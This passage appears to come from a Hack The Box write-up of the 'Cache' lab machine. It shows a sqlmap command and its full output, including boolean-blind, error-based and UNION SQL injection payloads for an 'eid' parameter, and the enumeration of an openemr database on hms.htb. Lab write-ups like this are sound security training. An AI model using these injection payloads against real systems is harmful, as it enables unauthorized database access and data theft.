 And now I used `sqlmap`

# [](header-2)Sqlmap to dump database

```shell
┌─[root@cyb3rhoL1c]─[~/Documents/htb/writeup/cache]
└──╼ #sqlmap -r login.req --threads=10 --dbs
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.3.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end users responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:59:11 /2020-05-10/

[12:59:11] [INFO] parsing HTTP request from 'login.req'
[12:59:12] [INFO] resuming back-end DBMS 'mysql' 
[12:59:12] [INFO] testing connection to the target URL
[12:59:13] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (3423=3423) THEN 1 ELSE (SELECT 9802 UNION SELECT 8164) END))

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: eid=1 AND EXTRACTVALUE(8000,CONCAT(0x5c,0x71706a7171,(SELECT (ELT(8000=8000,1))),0x7176717871))

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71706a7171,0x526b586553736c6a7551504c4543594765744c5853444957694a776d6f46714f7965637a7072514b,0x7176717871),NULL-- qQvr
---
[12:59:13] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.1
[12:59:13] [INFO] fetching database names
[12:59:14] [INFO] used SQL query returns 2 entries
[12:59:14] [INFO] starting 2 threads
[12:59:14] [INFO] resumed: 'information_schema'
[12:59:14] [INFO] resumed: 'openemr'
available databases [2]:                                                       
[*] information_schema
[*] openemr

[12:59:14] [INFO] fetched data logged to text files under '/root/.sqlmap/output/hms.htb'

[*] ending @ 12:59:14 /2020-05-10/
```
